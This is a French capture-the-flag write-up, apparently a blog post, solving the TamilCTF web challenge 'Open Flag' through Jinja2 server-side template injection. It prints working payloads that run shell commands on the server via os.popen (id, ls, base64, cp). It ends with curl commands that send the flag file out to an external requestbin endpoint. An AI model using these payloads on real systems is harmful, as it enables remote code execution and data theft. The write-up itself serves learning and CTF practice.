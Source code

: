 ```yaml
---
layout: post
title: "Open Flag"
date: 2021-09-29
categories: tamilctf
---
```


Ce challenge fait partie des challenges web.

Lorsque j'ouvre la page pour débuter le challenge, une page de login apparaît.

![1](https://user-images.githubusercontent.com/16634117/135445836-71bcee4f-83c2-4b99-9e5b-8a7346de9a6d.png)

Je tente d'abord un login aléatoire toto/toto afin de voir ce qu'il se passe, je tombe directement sur une nouvelle page m'indiquant la présence du flag dans l'image flag.jpg.

![2](https://user-images.githubusercontent.com/16634117/135445985-2c9546a9-d679-4bc4-907c-4f0f226c9380.png)

Tout naturellement, je tente d'accéder à cette image.

![1-1](https://user-images.githubusercontent.com/16634117/135446040-999b482c-fcb2-4f09-b21e-aed6fe260d04.png)

Evidemment rien...

Je décide donc de jeter un œil au html de la page précédente.

![3](https://user-images.githubusercontent.com/16634117/135446161-86e363f8-f8a7-418f-89ab-3dd2cb35b762.png)

En commentaire, se trouve "Hello" suivi du nom utilisé pour le login. Je tente donc de transformer cela pour pouvoir insérer des balises html en bypassant le commentaire.

![4](https://user-images.githubusercontent.com/16634117/135446343-6e6e8694-8b95-4c6b-a527-e0db4e475b1f.png)

Et le résultat :

![5](https://user-images.githubusercontent.com/16634117/135446394-f641c8f6-06a9-45cd-b23b-7f35939daab6.png)

Je peux donc injecter du code dans la page... Mais aucune notion d'admin qui doit passer pour vérifier quoi que ce soit, j'écarte donc rapidement la possibilité d'un vol de session.

Je jette un petit coup d'œil aux requêtes et je vois un indice intéressant, le serveur est en python.

![6](https://user-images.githubusercontent.com/16634117/135446526-9d564211-ff3d-4673-b42b-97ddca26be8d.png)

Je me suis souvenu d'un challenge root-me visant à injecter des templates pour exécuter du code, je me dis que cette piste est intéressante.

Pour vérifier mon hypothèse, il me suffit d'injecter un template tout simple comme {% raw %} `{{7 * 7}}` {% endraw %}; si le serveur effectue la multiplication, alors la faille est exploitable.

![7](https://user-images.githubusercontent.com/16634117/135446757-0a62b6c5-39e7-48fc-8411-70cfe397e1a9.png)

![8](https://user-images.githubusercontent.com/16634117/135446779-5f18bf36-d53b-462b-be69-efdd52dfc581.png)

Le code est exécuté !

À partir de là, un petit détour sur le [repo github payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) va me donner une liste d'injections qui me permettra d'arriver à mes fins.

Je tente d'abord de trouver l'uid côté serveur, la charge est la suivante :

{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`
{% endraw %}

Et la réponse :

![9](https://user-images.githubusercontent.com/16634117/135447259-653f1ee8-ce80-4d18-af7a-2056153b9f01.png)

Intéressant... Voyons voir si je peux lister les fichiers à la racine du serveur web :
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}`
{% endraw %}

Et la réponse :

![10](https://user-images.githubusercontent.com/16634117/135447364-34f4895c-3e2b-4d8f-ac02-f1e9a1c9ef17.png)

J'essaye donc de récuperer l'image en base 64
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('base64 flag.jpg').read() }}`
{% endraw %}
La réponse est vide... Il y a effectivement un fichier "flag.jpg" mais les droits m'empechent d'y accéder.

Je copie donc l'image dans le répertoire `/tmp` pour travailler proprement.
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cp flag.jpg /tmp/flag.jpg').read() }}`
{% endraw %}
Je fais maintenant un end point de récupération de requêtes grâce au site [requestbin](https://requestbin.com/?gclid=EAIaIQobChMIw426kM2m8wIVWMvICh31gwmLEAAYASAAEgIPHfD_BwE)

Et je tente d'envoyer une requête à partir du serveur, afin de vérifier que je peux sortir en http :

{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl https://en0siis5jevxc.x.pipedream.net').read() }}`
{% endraw %}
La réponse sur le site :

![12](https://user-images.githubusercontent.com/16634117/135448042-d73f89f5-a574-4d81-b3a9-27afb02097c1.png)

Et sur mon endpoint :

![13](https://user-images.githubusercontent.com/16634117/135448075-7e8221cf-0818-417f-b38b-f0048a70b010.png)

J'ai donc tous les élements pour terminer le challenge :
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl -F "image=@/tmp/flag.jpg" https://en0siis5jevxc.x.pipedream.net').read() }}`
{% endraw %}
Qui me donne :

![14](https://user-images.githubusercontent.com/16634117/135448201-56f99f3f-77c5-407f-8023-d8787beb47a6.png)

Je récupère cette donnée brute et la retransforme en image :

![file](https://user-images.githubusercontent.com/16634117/135448266-7c4f2636-15cf-4c61-8cd1-b801bca70199.png)

Bingo !
